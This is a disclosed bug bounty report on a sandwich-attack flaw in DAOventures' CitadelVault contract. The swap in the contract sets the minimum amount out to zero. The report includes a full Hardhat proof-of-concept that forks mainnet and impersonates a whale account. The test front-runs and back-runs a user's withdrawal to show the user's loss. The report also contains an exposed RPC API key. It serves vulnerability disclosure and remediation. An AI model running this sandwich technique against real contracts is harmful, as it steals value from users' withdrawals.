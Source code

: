 ```yaml
---
layout: forward
target: https://medium.com/@yeethsec/daoventures-sandwich-attack-vulnerability-b8f4402147e0
---
```




# Details
This is a report submitted through immunefi about a sandwich attack on DAOventures. The report has been paid out and closed.

# Description

## Target
https://etherscan.io/address/0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066

## Smart Contract Bug Description
CitadelVault.sol line 338: `_amounts = router.swapExactTokensForTokens(_amountIn, 0, _path, address(this), block.timestamp);` Amount out is set to 0 which leaves withdrawing vulnerable to sandwich attacks with flashbots.

## Proof of concept/Steps to Reproduce
```
const { expect } = require("chai");
const { network, ethers, waffle } = require("hardhat");

describe("CitadelVault", function () {
  this.timeout(0);

  it("Shouldn't be sandwichable", async function () {
    weth_whale_address = "0xE78388b4CE79068e89Bf8aA7f218eF6b9AB0e9d0";
    sushi_address = "0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F";
    dai_address = "0x6b175474e89094c44da98b954eedeac495271d0f";
    weth_address = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";

    withdrawer_address = "0x1c7679cf155d6df0523743bc4f26f4a08b6a7daf";
    vault_address = "0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066";

    // Impersonate withdrawer
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });
    const attacker = await ethers.getSigner(weth_whale_address);
    const signer = await ethers.getSigner(withdrawer_address);

    const CitadelVault = await ethers.getContractAt("CitadelVault", vault_address);
    const DAI = await ethers.getContractAt("IERC20", dai_address);
    const WETH = await ethers.getContractAt("IERC20", weth_address);
    const SUSHI = await ethers.getContractAt("IUniswapV2Router02", sushi_address);

    // Normal withdraw
    console.log("Normal withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");

    const normal_withdraw_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Reset network
    await network.provider.request({
      method: "hardhat_reset",
      params: [
        {
          forking: {
            jsonRpcUrl: "https://eth-mainnet.alchemyapi.io/v2/DywMbqEbxubKh3WjZQlDUG3MpGVpmCaM",
            blockNumber: 13017013,
          },
        },
      ],
    });
    
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });

    // Sandwiched withdraw
    console.log("\nSandwiched withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Front run sandwich swap
    trade_path = [WETH.address, DAI.address];
    inverse_trade_path = [DAI.address, WETH.address];
    const amount = await WETH.balanceOf(attacker.address);
    
    await WETH.connect(attacker).approve(SUSHI.address, amount);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      amount,
      0,
      trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const dai_balance = await DAI.balanceOf(attacker.address);
    
    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");
    
    // Back run sandwich swap
    await DAI.connect(attacker).approve(SUSHI.address, dai_balance);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      dai_balance,
      0,
      inverse_trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const sandwich_attacked_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    console.log("Incurred loss: $" + ethers.utils.formatEther(normal_withdraw_amount.sub(sandwich_attacked_amount)));
    expect(sandwich_attacked_amount < normal_withdraw_amount);
  });
});
```

## Impact
Users can lose up to the entire value of their shares when withdrawing.

## Risk Breakdown
Difficulty to Exploit: `Easy`  
CVSS2 Score: `Critical`  

## Recommendation
Allow the users to supply Amount Out or utilize an oracle and calculate a slippage amount within standards

## References
https://cmichel.io/de-fi-sandwich-attacks/
